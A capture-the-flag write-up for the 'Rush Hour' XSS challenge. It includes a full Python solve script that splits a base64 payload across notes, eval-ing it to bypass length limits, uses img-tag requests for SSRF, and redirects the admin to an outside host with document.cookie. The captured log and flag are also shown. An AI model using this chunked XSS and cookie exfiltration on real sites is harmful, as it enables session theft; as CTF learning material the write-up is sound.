 ```yaml
---
title: Rush Hour
solves: 49
points: 388
created: 2025-04-19T02:56
updated: 2025-04-20T20:29
tags:
  - xss
---
```


It is pretty clear from the start that this has no XSS protection whatsoever.

Simple payloads work directly using `<script>` tags.

However due to character limits we need to split our payload into individual slices.

For simplicity we can encode the code as base64, split it into even chunks of 7 chars.
The payload simply concatenates the segments together, base64 decode and then `eval` it.

```python
def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")
```

So how do we get the flag? It requires a SSRF and then reading the cookie, then sending it out.

I quickly found out that `fetch` doesn't work. So I went with `img` tags.

```js
img.src = 'http://127.0.0.1:3000/';
```

By doing this once, we populate `document.cookie` with the flag.

Then we can simply send it out.

```js
location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
```

## solve

> For style points I made the admin XSS another admin

```python
import base64
import time
import requests

from server import webhook

session = requests.Session()
# base = 'http://127.0.0.1:3000'
base = "http://rush-hour-v2.ctf.umasscybersec.org"


def register():
    session.get(base + '/').raise_for_status()
    return session.cookies.get('user')


def logout():
    session.cookies.clear()


def set_user(user_id):
    session.cookies.set('user', user_id)


def get_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/user/{session.cookies.get('user')}")
    r.raise_for_status()
    return r.text


def add_note(note, user_id=None, use_post=True):
    if user_id:
        set_user(user_id)
    r = session.post(f"{base}/create", data={'note': note}) if use_post else session.get(f"{base}/create", params={'note': note})
    r.raise_for_status()
    return r.text


def clear_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/clear")
    r.raise_for_status()
    return r.text


def report_user(target_id, user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/report/{target_id}")
    r.raise_for_status()
    return r.text


def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")


def send_payload_w(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    code = ""
    code += f'await add_note("<script>`");'
    code += f'await add_note("`;let c=\'\';`");'
    for i in range(0, len(payload), 32):
        chunk = payload[i:i+32]
        code += f'await add_note("`;c+=\'{chunk}\';`");'

    code += f'await add_note("`;c=atob(c);`");'
    code += f'await add_note("`;eval(c);`");'
    code += f'await add_note("`</script>");'
    return code


uid = register()
print(f"registered user: {uid}")
print("sending payload...")
send_payload("""
window.sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
window.add_note = (note) => {
    // add img tag
    let img = document.createElement('img');
    if(note) img.src = 'http://127.0.0.1:3000/create?note=' + encodeURIComponent(note);
    else img.src = 'http://127.0.0.1:3000/';
    img.style.display = 'none';
    document.body.appendChild(img);
    return new Promise((resolve) => {
        img.onload = () => {
            document.body.removeChild(img);
            resolve();
        };
        img.onerror = () => {
            document.body.removeChild(img);
            resolve();
        };
    });
};
window.payload = async () => {
    await add_note();
    """ + send_payload_w("""
console.log("this is an xss embedded in a admin's notes");
console.log("totally done for style but hey");
""") + """
    location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
};
window.payload();  
""")
print("activating payload...")
stop, wait = webhook(1337)
report_user(uid)
cookie = wait()['c'][0]
admin_uid = cookie.split(";")[0].split('=')[1]
flag = cookie.split(";")[1].split('=')[1]
print(f"admin uid = {admin_uid}")
print(f"flag = {flag}")
print("waiting for payload to finish on admin...")
time.sleep(4)
report_user(admin_uid)
stop()
```

```
registered user: 3dca4de7-6a04-47e2-bed5-fb4fed0929f7
sending payload...
activating payload...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /?c=user%3D89074c1d-5049-48fd-8531-94f111518c4a-admin%3B%20supersecretstring%3DUMASS%257BtH3_cl053Rz_%2540re_n0_m%2540tcH%257D HTTP/1.1" 200 -
admin uid = 89074c1d-5049-48fd-8531-94f111518c4a-admin
flag = UMASS%7BtH3_cl053Rz_%40re_n0_m%40tcH%7D
waiting for payload to finish on admin...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /favicon.ico HTTP/1.1" 200 -
```

```flag
UMASS{tH3_cl053Rz_@re_n0_m@tcH}
```
